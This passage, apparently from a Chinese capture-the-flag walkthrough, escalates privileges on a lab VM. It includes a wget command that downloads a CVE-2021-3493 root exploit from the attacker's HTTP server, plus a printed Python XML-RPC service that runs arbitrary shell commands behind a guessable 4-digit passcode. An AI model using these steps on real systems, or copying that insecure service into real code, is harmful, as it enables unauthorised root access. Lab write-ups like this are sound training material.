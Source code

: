此漏洞于2021年被发现,而此靶机是在2020年制作的.这就导致我们可以通过最新的ubuntu版本通杀漏洞简单的获得root.

在kali打开pythonhttp服务,在靶机使用wget下载exp到本地

`wget http://192.168.1.5/CVE-2021-3493.c`

![截屏2021-09-11 下午10.12.58](https://tva1.sinaimg.cn/large/008i3skNgy1gud1ogivipj61iq0jc79602.jpg)

### 2.漫漫提权路

还记得之前admin发布的帖子吗?有一个叫做monitor.py的文件正在运行

我们使用ps+grep进行查找

`ps -aux | grep monitor`

![截屏2021-09-11 下午10.19.34](https://tva1.sinaimg.cn/large/008i3skNgy1gud1vct5w1j61h403o0ue02.jpg)

发现了,文件在/home/socnet/monitor.py,

我们查看一下这个文件的内容

```python
#my remote server management API
import SimpleXMLRPCServer
import subprocess
import random

debugging_pass = random.randint(1000,9999)

def runcmd(cmd):
    results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    output = results.stdout.read() + results.stderr.read()
    return output

def cpu():
    return runcmd("cat /proc/cpuinfo")

def mem():
    return runcmd("free -m")

def disk():
    return runcmd("df -h")

def net():
    return runcmd("ip a")

def secure_cmd(cmd,passcode):
    if passcode==debugging_pass:
         return runcmd(cmd)
    else:
        return "Wrong passcode."

server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)

server.serve_forever()

```
